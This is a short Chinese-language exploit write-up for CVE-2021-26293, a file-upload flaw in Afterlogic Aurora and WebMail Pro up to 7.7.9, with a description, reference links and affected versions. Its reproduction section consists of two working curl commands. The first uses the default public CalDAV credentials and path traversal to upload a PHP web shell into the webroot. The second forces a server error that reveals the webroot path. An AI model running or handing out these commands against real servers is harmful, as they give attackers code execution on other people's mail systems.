 # Afterlogic Aurora & WebMail Pro 文件上传漏洞 CVE-2021-26293

## 漏洞描述

该漏洞是由于Afterlogic Aurora & WebMail Pro中对上传的文件过滤和限制存在缺陷，攻击者可以通过上传恶意文件，从而执行任意代码。

参考链接：

- http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26293
- https://github.com/E3SEC/AfterLogic/blob/main/CVE-2021-26293-rce-via-public-unrestricted-file-upload-vulnerability.md
- https://forum.ywhack.com/thread-115325-1-8.html

## 漏洞影响

```
WebMail Pro ≤ 7.7.9
Afterlogic Aurora ≤ 7.7.9
```

## 漏洞复现

```bash
curl -T shell.php -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/persona/%2e%2e/%2e%2e//%2e%2e//%2e%2e/data//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e/var/www/html/shell.php"
```

默认路径为/var/www/html，也可能更改配置为其它路径，可以尝试其它方式获取。


```bash
curl -X DELETE -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021"
//使用无效路径获取SabreDAV错误查看Webroot路径
```

